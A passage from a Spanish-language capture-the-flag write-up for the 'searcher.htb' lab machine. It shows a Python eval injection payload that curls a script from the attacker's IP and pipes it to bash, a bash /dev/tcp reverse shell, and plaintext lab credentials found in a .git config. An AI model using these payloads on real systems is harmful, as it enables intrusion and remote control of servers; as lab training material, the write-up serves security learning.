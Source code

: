 Guiandome de este [link](http://vipulchaskar.blogspot.com/2012/10/exploiting-eval-function-in-python.html), intentare ejecutar comandos en el servidor, cree un payload para mandarme una revese shell:

```python
',eval("__import__('os').system('curl http://<tu_IP>:8086/shell.html | bash')"))#
```
Y en mi archivo shell.html tengo esto:

```
bash -i >& /dev/tcp/<tu_IP>/443 0>&1
```
Ojo: puse el puerto 8086 por que el 8080 y el 80 los tengo ocupados

Y ya llego la reserve shell:

![](/assets/img/busqueda/busqueda5.png)


## Flag de user

Si listamos el directorio, podemos ver que existe uno de .git:

```
-rw-r--r-- 1 www-data www-data 1.1K Dec  1 14:22 app.py
drwxr-xr-x 8 www-data www-data 4.0K Apr 12 12:44 .git
drwxr-xr-x 2 www-data www-data 4.0K Dec  1 14:35 templates
```
Al listar el contenido, encontramos unas credenciales y un subdominio:

```
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[remote "origin"]
	url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
	remote = origin
	merge = refs/heads/main
```

Usuario: cody

Pass: jh1usoih2bkjaspwe92

Subdominio: gitea.searcher.htb

Al iniciar por SSH con cody, no nos deja, asi que tenemos que hacerlo con svc
